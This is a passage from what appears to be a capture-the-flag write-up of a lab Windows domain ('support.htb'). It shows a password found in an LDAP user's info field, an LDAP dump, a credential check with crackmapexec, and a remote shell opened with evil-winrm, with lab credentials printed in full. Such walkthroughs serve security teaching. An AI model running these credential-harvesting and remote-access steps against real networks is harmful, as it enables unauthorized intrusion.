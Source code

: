 
“Ironside47pleasure40Watchful” looks like it could be a password, and given no
first or last name, this looks like a shared account, so it makes sense that
the password may be stored here.

I could see the same information with `ldapdomaindump`:

    
    
    oxdf@hacky$ ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
    [*] Connecting to host...
    [*] Binding to host
    [+] Bind OK
    [*] Starting domain dump
    [+] Domain dump finished
    

It’s important to note that the `info` shows up in the `.json` file, but not
the `.html`:

    
    
    oxdf@hacky$ grep Ironside *
    domain_users.json:            "Ironside47pleasure40Watchful"
    

### Evil-WinRM

Looking at the Bloodhound data, support shows up there as a member of Remote
Management Users:

![image-20220527142918001](https://0xdfimages.gitlab.io/img/image-20220527142918001.png)

`crackmapexec` confirms:

    
    
    oxdf@hacky$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
    SMB         dc.support.htb  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
    HTTP        dc.support.htb  5985   DC               [*] http://dc.support.htb:5985/wsman
    WINRM       dc.support.htb  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
    

I’ll connect with `evil-winrm` and get a shell:

    
    
    oxdf@hacky$ evil-winrm -i support.h -u support -p 'Ironside47pleasure40Watchful'
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\support\Documents> 
    

And `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\support\desktop> type user.txt
    93ca1fe7************************
    